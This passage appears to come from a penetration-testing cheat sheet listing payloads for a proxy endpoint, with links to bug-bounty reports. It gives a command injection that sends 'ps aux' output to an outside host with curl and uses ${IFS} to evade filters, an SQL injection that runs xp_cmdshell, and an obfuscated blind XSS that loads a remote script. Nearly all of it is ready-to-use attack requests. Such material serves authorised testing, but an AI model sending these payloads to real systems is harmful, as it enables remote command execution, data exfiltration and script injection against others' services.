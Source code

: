 {% embed url="https://twitter.com/Random_Robbie/status/992174798699679751" %}

* [https://www.rcesecurity.com/2019/04/dell-kace-k1000-remote-code-execution-the-story-of-bug-k1-18652/](https://www.rcesecurity.com/2019/04/dell-kace-k1000-remote-code-execution-the-story-of-bug-k1-18652/)
* [https://www.youtube.com/watch?v=ha6LD1-RiJU](https://www.youtube.com/watch?v=ha6LD1-RiJU)

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{
"parameter":"0 -write |ps${IFS}aux|curl${IFS}http://me.com${IFS}-d${IFS}@-"
}
```

{% embed url="https://hackerone.com/reports/212696" %}

* **SQL Injection**

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
User-Agent: Mozilla/5.0
Origin: https://www.company.com
Content-Type: application/json
Content-Length: Number
{"parameter":"; DECLARE @command varchar(255); SELECT
@command='ping id.burpcollaborator.net'; EXEC
Master.dbo.xp_cmdshell @command; SELECT 1 as 'STEP'"}
```

{% embed url="https://hackerone.com/reports/816254" %}

* **Blind XSS**

```http
POST /Endpoint-To-Proxy HTTP/1.1
Host: www.company.com
Content-Type: application/json
Content-Length: Number


{
"parameter":"</script><svg/onload='+/"/+/onmouseover=1/+(s=do
cument.createElement(/script/.source),s.stack=Error().stack,s.src
=(/,/+/RandomString(10).id.burpcollaborator.net/).slice(2),docume
nt.documentElement.appendChild(s))//'>"
}
```

* [https://www.youtube.com/watch?v=ha6LD1-RiJU](https://www.youtube.com/watch?v=ha6LD1-RiJU)

### XXE
